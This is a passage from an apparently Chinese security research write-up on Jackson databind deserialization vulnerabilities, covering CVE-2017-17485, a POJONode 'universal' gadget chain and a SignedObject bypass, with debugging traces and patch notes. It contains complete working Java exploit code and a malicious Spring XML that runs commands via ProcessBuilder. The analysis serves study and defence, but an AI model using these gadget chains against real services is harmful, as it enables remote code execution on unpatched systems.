            bufferWritter.write(sb.toString());
            bufferWritter.close();
            System.out.println(sb);
        } catch (IOException e) {
            e.printStackTrace();

        }
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

fakes0u1.java

```plain
package jackson;

public class fakes0u1 {
    public Object object;
}
```

需要将Exploit.java 编译为class 在Poc中填上其完整路径

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114144702-9dd0db52-82b9-1.png)

运行可以成功执行命令

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114144850-de0292b0-82b9-1.png)

transletBytecodes是base64编码的Exploit恶意类的字节流

transletName是TemplatesImpl类对象的\_name属性值

outputProperties 是为了能成功调用到setOutputProperties()函数 其是outputProperties属性的setter方法

但是我们需要触发TemplatesImpl的话 我们是需要触发其getter方法 而不是setter方法 这其中又是如何实现的呢

尝试调试分析一下

### 调试

通过前面的分析我们可以直接将断点设置在`deserializeAndSet`​处 跟进​`deserializeAndSet`​

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114145034-1c10a790-82ba-1.png)

先进行deserialize

然后从`transletBytecodes`​开始为bean实例赋值

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114145118-363e8510-82ba-1.png)

前两个是调用的`MethodProperty.deserializeAndSet`​​​来实现的

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114145142-44cd3a90-82ba-1.png)

而到outputProperties时调用的是`SetterlessProperty.deserializeAndSet`​ （可能和赋值的类型有关系？）其调用的是属性的getter方法而并不是setter方法 从而可以触发利用链

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114145248-6c1a05d8-82ba-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114145314-7bee8dc6-82ba-1.png)

调用getter的invoke 通过反射的方式 调用到getOutputProperties

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114145359-9665500e-82ba-1.png)

### 高版本jdk不能触发的原因

在高版本的Templates中 会涉及到`_factory`​属性的赋值 若其为null的话 会导致异常 但是我们在Jackson中 关于TemplatesImpl的配置项只有5个uriresolver transletBytecodes outputProperties transletName stylesheetDOM 并不能操作`_factory`​ 所以不能再进行利用

### 补丁

jackson-databind-2.7.9换成jackson-databind-2.7.9.1

添加了黑名单过滤

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114145537-d1011e14-82ba-1.jpg)

## CVE-2017-17485 ClassPathXmlApplicationContext利用链

在开启enableDefaultTyping()或使用有问题的@JsonTypeInfo注解的时候 可以通过滥用Spring的SpEL表达式注入漏洞来触发

### 影响版本

Jackson 2.7系列 < 2.7.9.2

Jackson 2.8系列 < 2.8.11

Jackson 2.9系列 < 2.9.4

可以在jdk1.8运行

### 依赖版本

```plain
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>jackson</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    </properties>
    <dependencies>
        <dependency>
            <groupId>com.fasterxml.jackson.core</groupId>
            <artifactId>jackson-databind</artifactId>
            <version>2.7.9</version>
        </dependency>
        <dependency>
            <groupId>com.fasterxml.jackson.core</groupId>
            <artifactId>jackson-core</artifactId>
            <version>2.7.9</version>
        </dependency>
        <dependency>
            <groupId>com.fasterxml.jackson.core</groupId>
            <artifactId>jackson-annotations</artifactId>
            <version>2.7.9</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/commons-codec/commons-codec -->
        <dependency>
            <groupId>commons-codec</groupId>
            <artifactId>commons-codec</artifactId>
            <version>1.12</version>
        </dependency>

        <!-- https://mvnrepository.com/artifact/commons-io/commons-io -->
        <dependency>
            <groupId>commons-io</groupId>
            <artifactId>commons-io</artifactId>
            <version>2.5</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/org.springframework/spring-core -->
        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-core</artifactId>
            <version>5.0.2.RELEASE</version>
        </dependency>

        <!-- https://mvnrepository.com/artifact/org.springframework/spring-beans -->
        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-beans</artifactId>
            <version>5.0.2.RELEASE</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/org.springframework/spring-context -->
        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-context</artifactId>
            <version>5.0.2.RELEASE</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/org.springframework/spring-expression -->
        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-expression</artifactId>
            <version>5.0.2.RELEASE</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/commons-logging/commons-logging -->
        <dependency>
            <groupId>commons-logging</groupId>
            <artifactId>commons-logging</artifactId>
            <version>1.2</version>
        </dependency>


    </dependencies>
</project>
```

### 复现

```plain
package CVE201717485;

import com.fasterxml.jackson.databind.ObjectMapper;

import java.io.IOException;

public class PoC {
    public static void main(String[] args)  {

        String payload = "[\"org.springframework.context.support.ClassPathXmlApplicationContext\", \"http://127.0.0.1/spel.xml\"]";
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        try {
            mapper.readValue(payload, Object.class);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

```plain
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder">
        <constructor-arg value="calc.exe" />
        <property name="whatever" value="#{ pb.start() }"/>
    </bean>
</beans>
```

指定了java.lang.ProcessBuilder类 写入了所需执行的命令

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114145908-4e6e1302-82bb-1.png)

### 调试分析

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114145959-6ccbb35e-82bb-1.png)

跟进到`UntypedObjectDeserializer.deserializeWithType`​ Token的name是START\_ARRAY 会调用`AsArrayTypeDeserializer._derialize`​来解析数组

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114150022-7b0b433a-82bb-1.png)

调用到`BeanDeserializer.deserialize`​​​ 在这里Token变成VALUE\_STRING 并不是一个startToken所以`isExpectedStartObjectToken()`​​​ 返回false 所以随后跳到`_deserializeOther`​​​

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114150118-9bea12c0-82bb-1.png)

`deserializeFromString`​​​ 跟进`createFromString`​​​

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114150159-b48962fe-82bb-1.png)

value值为[http://127.0.0.1/spel.xml](http://127.0.0.1/spel.xml) 调用call 实现远程调用

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114150219-c0c13ab0-82bb-1.png)

对`ClassPathXmlApplicationContext`​​​进行实例化 参数为xml文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114150333-ecb70f14-82bb-1.png)

与之前调用的类不同的是 ClassPathXmlApplicationContext中并没有setter方法 但是拥有构造函数 所以在这里要通过其构造函数来实现恶意代码的执行

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114150414-04e6ad06-82bc-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114151419-6da9a2f2-82bd-1.png)

跟进refresh函数 调用​`invokeBeanFactoryPostProcessors`​

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114151456-8377c96a-82bd-1.png)

其中调用​`getBeanNamesForType`​

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114152843-70a4effa-82bf-1.png)

进一步调用​`doGetBeanNamesForType`​

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114152907-7f3756de-82bf-1.png)

beanname为pb mbd识别为`java.lang.ProcessBuilder` 跟进`isFactoryBean`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114153014-a7071302-82bf-1.png)

其中有`predictBeanType`​ 预测BeanType类型跟进该函数

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114153046-b9e32dee-82bf-1.png)

跟进​`determineTargetType`​

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114153111-c8f78f3c-82bf-1.png)

FactoryBeanName为null 跟进`resolveBeanClass`​​​

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114153141-da92450c-82bf-1.png)

跟进​`doResolveBeanClass`​​​

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114153221-f2857ee0-82bf-1.png)

跟进​`evaluateBeanDefinitionString`​​​

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114153245-00bbe698-82c0-1.png)

跟进`StandardBeanExpressionResolver.evaluate`​

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114153305-0cc7694e-82c0-1.png)

调用了Expression.getValue()方法即SpEL表达式执行的方法 sec参数是我们可以控制的内容即由spel.xml解析得到的SpEL表达式

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114153327-19df32e2-82c0-1.png)

调用栈

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114153346-2557f97e-82c0-1.png)

### 补丁

我们所使用的调用类并没有出现在黑名单上 但是在调用`BeanDeserializerFactory.createBeanDeserializer`​ 会调用`_validateSubType()`​对子类型进行校验 先进行黑名单过滤 发现类名不在黑名单后再判断是否是以 org.springframe 开头的类名，是的话循环遍历目标类的父类是否为 AbstractPointcutAdvisor 或 AbstractApplicationContext 是的话跳出循环然后抛出异常

而我们的利用类的继承关系是…->AbstractApplicationContext->AbstractRefreshableApplicationContext->AbstractRefreshableConfigApplicationContext->AbstractXmlApplicationContext->ClassPathXmlApplicationContext 是继承自AbstractApplicationContext类的 会被过滤掉

## 通杀

利用的是Jackson中的PojoNode 他的toString是可以直接触发任意的getter的 触发条件如下

-   不需要存在该属性
-   getter方法需要有返回值
-   尽可能的只有一个getter

试验一下

```plain
package tongsha;

import java.io.IOException;
import java.io.Serializable;

public class User implements Serializable {

    public User() {
    }

    public Object getName() throws IOException {
        Runtime.getRuntime().exec("calc");
        return "asdas";
    }

    public Object setName(String name) {
        System.out.println("setname");
        return "sadsad";
    }

}
```

```plain
package tongsha;

import com.fasterxml.jackson.databind.node.POJONode;

public class Demo {
    public static void main(String[] args) {
        User user = new User();
        POJONode jsonNodes = new POJONode(user);
        jsonNodes.toString();
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114153427-3dd37a28-82c0-1.png)

### 利用链

我们的`POJONode`​是继承`ValueNode`​的 `ValueNode`​是继承`BaseJsonNode`​的

而在`BaseJsonNode`​中存在

```plain
Object writeReplace() {
        return NodeSerialization.from(this);
    }
```

意味着 我们在反序列化的时候 会经过这个writeReplace方法 这个方法会对我们的序列化过程进行检查 从而阻止我们的序列化进程 我们需要将其重写出来 将这个方法去掉

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114153459-50c62996-82c0-1.png)

这样我们就可以进行序列化进程了

### TemplatesImpl链

```plain
package tongsha;

import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;


import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.net.URI;
import java.security.*;
import java.util.Base64;

public class TemplatesImplChain {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        ctClass.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{},ctClass);
        constructor.setBody("Runtime.getRuntime().exec(\"calc\");");
        ctClass.addConstructor(constructor);
        byte[] bytes = ctClass.toBytecode();
        Templates templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl, "_bytecodes", new byte[][]{bytes});
        setFieldValue(templatesImpl, "_name", "fakes0u1");
        setFieldValue(templatesImpl, "_tfactory", null);
        POJONode jsonNodes = new POJONode(templatesImpl);
        BadAttributeValueExpException exp = new BadAttributeValueExpException(null);
        Field val = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        val.setAccessible(true);
        val.set(exp,jsonNodes);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(barr);
        objectOutputStream.writeObject(exp);
        FileOutputStream fout=new FileOutputStream("1.ser");
        fout.write(barr.toByteArray());
        fout.close();
        FileInputStream fileInputStream = new FileInputStream("1.ser");
        System.out.println(serial(exp));
        deserial(serial(exp));
    }

    public static String serial(Object o) throws IOException, NoSuchFieldException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(o);
        oos.close();

        String base64String = Base64.getEncoder().encodeToString(baos.toByteArray());
        return base64String;

    }

    public static void deserial(String data) throws Exception {
        byte[] base64decodedBytes = Base64.getDecoder().decode(data);
        ByteArrayInputStream bais = new ByteArrayInputStream(base64decodedBytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
        ois.close();
    }

    private static void Base64Encode(ByteArrayOutputStream bs){
        byte[] encode = Base64.getEncoder().encode(bs.toByteArray());
        String s = new String(encode);
        System.out.println(s);
        System.out.println(s.length());
    }
    private static void setFieldValue(Object obj, String field, Object arg) throws Exception{
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, arg);
    }
}
```

‍

可以成功执行命令

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114153531-63936dea-82c0-1.png)

#### 调试

通过`BadAttributeValueExpException`​的`toString`​方法进入

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114153556-72bd52f4-82c0-1.png)

进入到`BaseJsonNode`​​​的`toString`​​​ 调用​`InternalNodeMapper.nodeToString`​​​

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114153620-80be0a06-82c0-1.png)

调用`ObjectWriter.writeValueAsString(Object value)`​​​

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114153640-8cf90e38-82c0-1.png)

最终在`serializeAsField`​中触发invoke 调用到`TemplatesImpl.getOutputProperties`​

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114153657-974e3354-82c0-1.png)

调用链如下

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114153725-a80eac46-82c0-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114153743-b287a4f2-82c0-1.png)

### SignObject链

在Templates被ban的情况下 打二次反序列化

```plain
package tongsha;

import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;


import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.net.URI;
import java.security.*;
import java.util.Base64;

public class SignObjectChain {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        ctClass.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{},ctClass);
        constructor.setBody("Runtime.getRuntime().exec(\"calc\");");
        ctClass.addConstructor(constructor);
        byte[] bytes = ctClass.toBytecode();
        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl, "_bytecodes", new byte[][]{bytes});
        setFieldValue(templatesImpl, "_name", "fakes0u1");
        setFieldValue(templatesImpl, "_tfactory", null);
        POJONode jsonNodes2 = new POJONode(templatesImpl);
        BadAttributeValueExpException exp2 = new BadAttributeValueExpException(null);
        Field val2 = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        val2.setAccessible(true);
        val2.set(exp2,jsonNodes2);
        KeyPairGenerator keyPairGenerator;
        keyPairGenerator = KeyPairGenerator.getInstance("DSA");
        keyPairGenerator.initialize(1024);
        KeyPair keyPair = keyPairGenerator.genKeyPair();
        PrivateKey privateKey = keyPair.getPrivate();
        Signature signingEngine = Signature.getInstance("DSA");
        SignedObject signedObject = new SignedObject(exp2,privateKey,signingEngine);
        POJONode jsonNodes = new POJONode(signedObject);
        BadAttributeValueExpException exp = new BadAttributeValueExpException(null);
        Field val = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        val.setAccessible(true);
        val.set(exp,jsonNodes);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(barr);
        objectOutputStream.writeObject(exp);
        FileOutputStream fout=new FileOutputStream("1.ser");
        fout.write(barr.toByteArray());
        fout.close();
        FileInputStream fileInputStream = new FileInputStream("1.ser");
        System.out.println(serial(exp));
        deserial(serial(exp));
        //doPOST(exp.toString().getBytes());
        //byte[] byt=new byte[fileInputStream.available()];
        //fileInputStream.read(byt);
        //doPOST(byt);
    }

    public static String serial(Object o) throws IOException, NoSuchFieldException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        //Field writeReplaceMethod = ObjectStreamClass.class.getDeclaredField("writeReplaceMethod");
        //writeReplaceMethod.setAccessible(true);
        oos.writeObject(o);
        oos.close();

        String base64String = Base64.getEncoder().encodeToString(baos.toByteArray());
        return base64String;

    }

    public static void deserial(String data) throws Exception {
        byte[] base64decodedBytes = Base64.getDecoder().decode(data);
        ByteArrayInputStream bais = new ByteArrayInputStream(base64decodedBytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
        ois.close();
    }

    private static void Base64Encode(ByteArrayOutputStream bs){
        byte[] encode = Base64.getEncoder().encode(bs.toByteArray());
        String s = new String(encode);
        System.out.println(s);
        System.out.println(s.length());
    }
    private static void setFieldValue(Object obj, String field, Object arg) throws Exception{
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, arg);
    }
}
```

还是一样的路径 这次是跟进到了

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114153805-bf804bfa-82c0-1.png)

`SignedObject.getObject`​之中 这里还存在一个readObject()方法 可以将我们传进来的在进行一次反序列化从而达到绕过的目的 然后是又一遍TemplatesImpl链

## 参考文章

[https://juejin.cn/post/6844904166809157639#heading-49](https://juejin.cn/post/6844904166809157639#heading-49)

[https://www.mi1k7ea.com/](https://www.mi1k7ea.com/)

[https://boogipop.com/2023/05/16/Jackson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%80%9A%E6%9D%80Web%E9%A2%98/](https://boogipop.com/2023/05/16/Jackson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%80%9A%E6%9D%80Web%E9%A2%98/)

‍

‍

‍
